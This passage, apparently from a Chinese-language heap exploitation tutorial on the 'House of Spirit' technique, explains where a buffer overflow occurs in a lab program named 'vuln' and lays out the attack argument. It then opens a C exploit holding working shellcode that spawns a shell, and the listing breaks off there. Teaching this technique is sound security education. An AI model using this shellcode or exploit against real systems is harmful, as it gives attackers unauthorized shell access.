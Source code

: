 ![5](../img/7d3633be500678f1953405a6d3c102b7.png)

漏洞程序的行`[3]`是缓冲区溢出发生处。因此为了成功利用漏洞程序，攻击者需要提供下面的命令行参数：

```
argv[1] = Shell Code + Stack Address + Chunk size
```

利用程序：

```
/* Program to exploit executable 'vuln' using hos technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define VULNERABLE "./vuln"

/* Shellcode to spwan a shell. Size: 48 bytes - Includes Return Address overwrite */
char scode[] =
        "\xeb\x0e\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xb8\xfd\xff\xbf\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90";
```